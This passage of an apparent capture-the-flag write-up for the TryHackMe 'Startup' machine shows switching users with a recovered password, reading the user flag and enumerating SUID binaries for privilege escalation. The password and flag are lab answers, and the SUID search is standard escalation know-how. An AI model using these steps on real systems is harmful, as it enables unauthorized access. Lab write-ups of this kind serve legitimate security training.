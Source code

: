 Let's try to switch user with this password : **c4ntg3t3n0ughsp1c3**

```
www-data@startup:/incidents$ su lennie
Password: 
lennie@startup:/incidents$ cd --
lennie@startup:~$ cat 
Documents/ scripts/   user.txt   
lennie@startup:~$ cat user.txt 
THM{03ce3d619b80ccbfb3b7fc81e46c0e79}
```

And we have the **user flag**.
## Lennie to Root

First we check for sudo permissions :

```
sudo: unable to resolve host startup                                                                        
[sudo] password for lennie:                                                                                 
Sorry, user lennie may not run sudo on startup.           
```

Then we check for strange SUID files, to search the a system for these type of files run the following: `find / -perm -u=s -type f 2>/dev/null` :

```
lennie@startup:~$ find / -perm -u=s -type f 2>/dev/null                                                     
/bin/mount                                                                                                  
/bin/fusermount                                                                                             
/bin/umount                                                                                                 
/bin/ping6
/bin/su
/bin/ping
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/at
/usr/bin/sudo
/usr/bin/newuidmap
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/newgidmap
/usr/bin/gpasswd
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
```
